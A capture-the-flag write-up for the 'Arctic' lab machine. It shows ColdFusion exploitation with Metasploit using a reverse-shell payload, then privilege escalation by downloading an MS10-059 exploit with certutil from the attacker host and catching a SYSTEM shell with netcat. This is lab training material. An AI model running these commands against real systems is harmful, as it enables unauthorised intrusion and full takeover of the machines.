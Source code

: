 # Arctic

<pre>nmap -p 135,8500,49154 -sV -Pn 10.10.10.11        

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC</pre>



- CFIDE directory stands for ColdFusion Integrated Development Environment
- Directory in Adobe ColdFusion installations that contains various files and resources used by ColdFusion applications






## Method 1 Metasploit

<pre>exploit/windows/http/coldfusion_fckeditor

set RHOSTS

set LHOST 

set LPORT

set PAYLOAD java/jsp_shell_reverse_tcp

set HTTPCLIENTTIMEOUT 150

run

msf6 exploit(windows/http/coldfusion_fckeditor) > exploit</pre>

<pre>C:\ColdFusion8\runtime\bin>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled



C:\ColdFusion8\runtime\bin>net user
net user

User accounts for \\ARCTIC

-------------------------------------------------------------------------------
Administrator            Guest                    tolis                    
The command completed successfully.</pre>

<pre>C:\ColdFusion8\runtime\bin>net user tolis
net user tolis
User name                    tolis
Full Name                    tolis
Comment                      
User's comment               
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            22/3/2017 9:07:58   
Password expires             Never
Password changeable          22/3/2017 9:07:58   
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   16/5/2024 2:23:36   

Logon hours allowed          All

Local Group Memberships      *Users                
Global Group memberships     *None                 
The command completed successfully.</pre>

## Windows Exploit Suggester - Privilege Escalation

- Save output from `systeminfo` into sysinfo.txt
- Update the database

<pre>./windows-exploit-suggester.py --update</pre>

<pre>./windows-exploit-suggester.py --database 2024-05-14-mssb.xls --systeminfo sysinfo.txt</pre>

<pre>[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical</pre>

- Use `MS10-059:Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important`

https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/README.md

- Transfer to target machine

<pre>python -m SimpleHTTPServer</pre>

<pre>certutil -urlcache -f http://10.10.14.8/MS10-059.exe MS10-059.exe</pre>

- Execute `MS10-059.exe` on target machine

<pre>MS10-059.exe
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Usage: Chimichurri.exe ipaddress port <BR></pre>

- Setup netcat listener on attacking machine

<pre>nc -nvlp 5555</pre>

<pre>MS10-059.exe 10.10.14.8 5555</pre>

<pre>nc -nvlp 5555
listening on [any] 5555 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.11] 49666
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
nt authority\system</pre>

## Method 2 Manual Exploitation